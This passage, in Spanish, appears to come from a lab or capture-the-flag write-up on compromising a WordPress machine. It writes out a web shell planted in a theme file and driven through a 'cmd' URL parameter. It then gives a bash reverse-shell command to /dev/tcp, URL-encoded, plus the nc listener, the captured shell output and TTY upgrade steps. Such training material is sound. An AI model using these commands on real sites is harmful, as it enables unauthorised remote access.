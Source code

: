Guardaremos los cambios haciendo clic en el botón `Update File` el cual se encuentra al final del bloque de edición. Debemos ver un mensaje como este: `File edited successfully`, de lo contrario, buscaremos otro tema.

Entonces ahora debemos hacer una solicitud a este archivo especificando el parámetro `cmd` en la URL

~~~ bash
http://norc.labs/wp-content/themes/twentytwentythree/patterns/hidden-404.php?cmd=whoami
~~~


## Shell as `www-data`

Enviaríamos este comando a través del parámetro `cmd`, en este caso, podemos enviar directamente el siguiente comando con algunos caracteres codificados

~~~ bash
bash -c "bash -i >&/dev/tcp/10.88.0.1/443 0>&1"
~~~

Antes de enviar la solicitud no olvidemos lanzar un `listener` con `nc`

~~~ bash
nc -lvnp 443
~~~

Finalmente ejecutamos...

~~~ bash
http://norc.labs/wp-content/themes/twentytwentythree/patterns/hidden-404.php?cmd=bash -c "bash -i >%26%2Fdev%2Ftcp%2F172.17.0.1%2F443 0>%261"
~~~

Y ya deberíamos obtener una consola como el usuario `www-data`

 ~~~ bash
nc -lvnp 443
listening on [any] 443 ...
connect to [172.17.0.1] from (UNKNOWN) [172.17.0.2] 38822
bash: cannot set terminal process group (30): Inappropriate ioctl for device
bash: no job control in this shell
<.labs/wp-content/themes/twentytwentyfour/patterns$ 
 ~~~

<br>

# Escalada de privilegios
---
## Tratamiento de la TTY

Haremos un procedimiento para poder tener una consola más interactiva (`Ctrl + C`, `Ctrl + L`), en la máquina víctima ejecutamos los siguientes comandos

~~~ bash
<.labs/wp-content/themes/twentytwentyfour/patterns$ script /dev/null -c bash 
script /dev/null -c bash
Script started, output log file is '/dev/null'.
<.labs/wp-content/themes/twentytwentyfour/patterns$ export TERM=xterm
export TERM=xterm
erns$ ^Z@c052d297dce2:/var/www/norc.labs/wp-content/themes/twentytwentyfour/patte
[1]  + 270986 suspended  nc -lvnp 443
root@parrot content \# stty raw -echo;fg                                                                                                                            
[1]  + 270986 continued  nc -lvnp 443
                                     reset xterm
~~~
